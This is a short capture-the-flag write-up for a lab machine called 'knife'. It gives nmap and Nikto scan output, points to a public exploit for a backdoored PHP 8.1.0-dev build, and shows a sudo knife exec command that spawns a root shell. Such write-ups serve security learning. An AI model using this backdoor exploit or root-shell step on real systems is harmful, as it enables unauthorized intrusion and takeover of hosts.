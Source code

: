 # ENUM

### NMAP SCAN

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Nikto Scan

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.242
+ Target Hostname:    10.10.10.242
+ Target Port:        80
+ Start Time:         2021-07-09 14:49:14 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ Retrieved x-powered-by header: PHP/8.1.0-dev
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
```



# EXPLOIT

- From the Nikto Scan Found `PHP/8.1.0-dev`.

- It has a backdoor Remote Code Execution Vuln.

`https://github.com/flast101/php-8.1.0-dev-backdoor-rce`



# PREV ESC

`sudo -l`


Matching Defaults entries for james on knife:                                                                                                                                                                      
    `env_reset`, `mail_badpass`, `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin`

User james may run the following commands on knife:
    `(root) NOPASSWD: /usr/bin/knife`
    
`https://docs.chef.io/workstation/knife_exec/`

To get The root I used the Command:
  
 `sudo knife exec --exec "exec '/bin/sh -i'" `
  
 

